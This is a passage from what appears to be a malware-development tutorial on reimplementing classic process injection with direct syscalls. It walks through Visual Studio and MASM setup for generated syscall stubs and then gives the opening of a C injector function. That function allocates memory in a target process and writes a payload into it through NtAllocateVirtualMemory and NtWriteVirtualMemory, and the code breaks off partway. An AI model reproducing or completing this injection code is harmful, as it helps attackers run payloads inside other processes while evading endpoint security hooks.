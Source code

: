 Copy the generated files to the project folder and then add them to the Visual Studio project as existing items.

[![](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-114349632-de44115a-3e9f-450f-bb37-f0bff7776d5f.png)](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-114349632-de44115a-3e9f-450f-bb37-f0bff7776d5f.png)### **Step 2**

Enable MASM in the project to allow for the compilation of the generated assembly code.

[![](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-214351708-4ba6253b-4713-4fed-8711-e8cb0766938e.png)](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-214351708-4ba6253b-4713-4fed-8711-e8cb0766938e.png)[![](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-314352187-6786f4d7-1ae2-4e6b-94ce-8f8087d223df.png)](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-314352187-6786f4d7-1ae2-4e6b-94ce-8f8087d223df.png)### **Step 3**

Modify the properties to set the ASM file to be compiled using *Microsoft Macro Assembler*.

[![](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-414353258-3fbf4ead-ce9c-4083-805a-ae5ced08213e.png)](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-414353258-3fbf4ead-ce9c-4083-805a-ae5ced08213e.png)[![](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-514353606-1e3d5862-fc03-4247-b03e-493b07f3a1ce.png)](67%20Syscalls%20-%20Reimplementing%20Classic%20Injection%20a51528df7b4045359976f170fab7b5ef/syscalls-classic-514353606-1e3d5862-fc03-4247-b03e-493b07f3a1ce.png)### **Step 4**

The Visual Studio project can now be compiled. The `ClassicInjectionViaSyscalls` function is shown below.


```


BOOL ClassicInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {


	NTSTATUS	STATUS                  = 0x00;
	PVOID		pAddress                = NULL;
	ULONG		uOldProtection          = NULL;

	SIZE_T		sSize                   = sPayloadSize,
			    sNumberOfBytesWritten   = NULL;
	HANDLE		hThread	                = NULL;



	// Allocating memory
	if ((STATUS = NtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();

//--------------------------------------------------------------------------
	// Writing the payload
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	if ((STATUS = NtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
```